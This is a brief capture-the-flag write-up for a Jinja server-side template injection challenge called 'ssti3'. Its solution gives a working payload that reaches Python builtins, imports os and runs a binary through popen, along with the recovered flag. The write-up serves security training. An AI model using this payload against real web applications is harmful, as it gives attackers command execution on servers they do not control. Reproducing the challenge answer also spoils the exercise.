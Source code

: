 # ssti3

## What it is

Same as ssti2 but the flag is not in app.py or in a file.

Files in the directory:
```
app.py
config.py
getFlag
index.html
```

```getFlag``` is an elf file.

## Solution

Run ```getFlag```:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('./getFlag').read()}}
```

flag: ```BFS{Oh_My..._I_Can_RCE_PyTh0N!!}```
